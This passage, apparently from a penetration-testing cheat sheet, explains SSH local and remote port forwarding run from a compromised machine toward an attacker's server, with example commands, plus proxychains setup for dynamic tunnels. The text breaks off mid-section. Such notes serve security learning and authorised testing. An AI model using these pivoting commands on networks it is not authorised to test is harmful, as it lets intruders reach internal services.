 The `-N` can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.

**example**: `ssh -N -L 0.0.0.0:9999:192.168.67.132:80 victim@192.168.67.132`

After the above command is run, the remote `httpd` service can be accessed by your local port `9999`.

## SSH Remote Port Forwarding

Brings a port from a machine in the internal victim's network to your attacking machine:

```
ssh -N -R [your_ssh_server_interface]:[your_port]:[victim_ip]:[victim_port_you_want_to_forward] [attackerusername]@[your_ssh_server_ip]
```

The `your_ssh_server_interface:` can be omitted. 

The `-N` can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.

> **Note**: *The above command is run at a compromised machine inside the target network.*

**example**: `ssh -N -R 192.168.67.1:4445:192.168.67.128:445 user@192.168.67.1`

After the above command is run, port `445` of host `192.168.67.128` (which is different from the compromised machine) is forwarded at the ssh server of IP `192.168.67.1`. 

The `victim_ip` can be set to `127.0.0.1`. This means that a local (in relation to where the command is run) port will be forwarded to the target ssh server

For this to work, you need the following configuration at your SSH server (`/etc/ssh/sshd_config`):

`GatewayPorts yes`

## Proxychains 

When you want to forward many target ports in a dynamic manner, using `ssh` you can create such a dynamic tunnel with the `-D` switch. Then, using this tunnel and `proxychains` you can forward all scans/traffic through `ssh` for every requested port in a dynamic manner.

### Configure proxychains.conf (attacker's machine)

At the attacker's machine, make sure `proxychains` is installed. The default configuration settings are ok (`/etc/proxychains.conf`):

```
#proxy_dns 
socks4 127.0.0.1 9050
```

You can use `socks5`, `http` or `https` protocol. `ICMP` is not supported.

### Dynamic port forwarding via ssh 

We create a dynamic application-level port forwarding from the attacking machine to the victim machine, by running the following at the attacker's machine:
